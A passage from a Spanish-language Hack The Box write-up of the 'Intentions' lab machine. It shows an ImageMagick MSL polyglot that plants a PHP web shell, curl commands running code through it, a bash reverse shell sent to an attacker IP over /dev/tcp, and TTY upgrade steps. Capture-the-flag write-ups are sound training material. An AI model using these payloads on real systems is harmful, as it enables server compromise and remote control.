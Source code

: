 ```python
logg.status("Trying to get the file...")
threads = ThreadPoolExecutor(300);
while True:
    threads.submit(bruteforce)
    result = threads.submit(test)
    result.add_done_callback(check)   

```
{: file="msl_upload.py" }

El archivo MSL de polyglot que usaremos será el siguiente, pero necesitaremos escribir la webshell a algún lugar que exista en el sistema y podamos hacerle peticiones; de las rutas y tablas/columnas de la base de datos podemos deducir que se está usando Laravel como framework del backend, y las imágenes están siendo guardadas en `storage/<category>/<image>.jpg`, por lo que una ruta a probar sería `/var/www/html/intentions/storage/app/public/` o `/var/www/html/intentions/public/`, probemos con la segunda por ejemplo

```xml
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php system($_GET['a']); ?>" />
<write filename="info:/var/www/html/intentions/public/test.php" />
</image>
```
{: file="test.msl" }

Tomará un caption y lo escribirá en esquema `info` dentro de la ruta que ves. Ejecutando el script de Python no toma mucho en escribir la webshell en la raíz de archivos públicos de Laravel; nuestra webshell estará en `test.php`

```bash
❯ python3 si.py
[+] Thingy: Shell maybe uploaded, go to look in http://intentions.htb/test.php
[1]    8550 killed     python3 si.py
❯ curl "http://intentions.htb/test.php?a=id"
caption:uid=33(www-data) gid=33(www-data) groups=33(www-data)
 CAPTION 120x120 120x120+0+0 16-bit sRGB 4.550u 0:05.816
```

Podemos lanzarnos ahora un reverse shell como `www-data` a nuestro equipo

```bash
❯ curl "http://intentions.htb/test.php?a=bash%20-c%20'bash%20-i%20>%26/dev/tcp/10.10.14.173/443%200>%261'"
----------------------------------------------------------------------------------
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.220 59232
bash: cannot set terminal process group (1068): Inappropriate ioctl for device
bash: no job control in this shell
www-data@intentions:~/html/intentions/public$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@intentions:~/html/intentions/public$ ^Z
[1]  + 9296 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 9296 continued  nc -lvnp 443
                                   reset xterm
www-data@intentions:~/html/intentions/public$ export TERM=xterm-256color
www-data@intentions:~/html/intentions/public$ source /etc/skel/.bashrc
www-data@intentions:~/html/intentions$ stty rows 36 columns 149
```

